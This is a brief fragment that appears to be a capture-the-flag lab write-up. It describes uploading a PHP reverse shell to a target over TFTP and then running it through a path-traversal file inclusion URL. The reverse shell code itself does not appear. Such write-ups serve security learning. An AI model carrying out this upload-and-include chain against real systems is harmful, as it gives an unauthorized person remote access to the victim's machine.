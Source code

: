 we can connect to tftp with just
`tftp 10.10.10.55`

we can upload a rev php shell by doing
`put reverse.php`

after googling a bit, we find out that the default directory for tftp is
`/var/lib/tftpboot`

We can execute the rev shell going to this address:
`http://10.10.10.55/?file=../../../../../var/lib/tftpboot/reverse.php`


tryhackme.com/api/tasks/roomname